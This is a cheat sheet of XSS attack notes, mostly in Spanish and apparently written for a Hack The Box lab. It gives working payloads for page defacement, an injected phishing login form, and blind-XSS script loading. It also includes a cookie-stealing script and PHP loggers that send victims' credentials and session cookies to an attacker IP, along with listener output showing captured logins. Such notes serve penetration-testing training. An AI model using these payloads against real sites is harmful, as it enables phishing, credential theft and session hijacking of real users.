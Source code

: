 # XSS Attack


## Defacement 


- Change background

```html
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

- Chante page title

```html
<script>document.title = 'HackTheBox Academy'</script>
```

- Change page text

```javascript
document.getElementById("todo").innerHTML = "New Text"
document.getElementsByTagName('body')[0].innerHTML = "New Text"

```

```javascript
$("#todo").html('New Text');
```

- Insert html code ->

Original html

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```
Mimified version inserted

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```
- [Html mimifier ](https://www.willpeavy.com/tools/minifier/)

## Inject Login Form (phishing)

- html a inyectar
  
```html
<h3>Please login to continue</h3>
<form action=http://10.10.15.96>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

- payload 
  
```javasctipt
'><script>alert(1)</script>
```

- payload que muestra el formulario y elimina el formulario anterior.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.96><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.96><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```

- el listener de necatat que recibe las credenciasles

```bash
nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.15.96 34700
GET /?username=admn&password=pass&submit=Login HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
...
...
```

## Grabar credenciales obtenidas

- Código php para grabar las credenciales obtenidas

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

- Montamos el servidor php para recibir

```bash
hackadvisermx@htb[/htb]$ mkdir /tmp/tmpserver
hackadvisermx@htb[/htb]$ cd /tmp/tmpserver
hackadvisermx@htb[/htb]$ vi index.php #at this step we wrote our index.php file
hackadvisermx@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

- Recibimos credenciales y estas se almacenan

```bash
cat creds.txt 
Username: chido | Password: maschdo
Username: paka | Password: paco
```

- Luego podemos enviar phising con la liga

```
http://10.129.102.212/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.96%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E
```

## Ahora robar cookies blind XSS

En algunos casos no podemos saber como se ejecuta, solo pidiento interar con nuestro remoto

```
<script src="http://10.10.15.96/username"></script>

'><script src=http://10.10.15.96></script>

"><script src=http://10.10.15.96></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.96\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "10.10.15.96");a.send();</script>

<script>$.getScript("http://10.10.15.96")</script>
```

- identificamos el campo que acepta la inyección y el payload adecuado

```
profle picuture with:
"><script src=http://10.10.15.96/script.js></script>
```

- Creamos un javascript local script.js

``` 
new Image().src='http://10.10.15.96/index.php?c='+document.cookie
```


```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```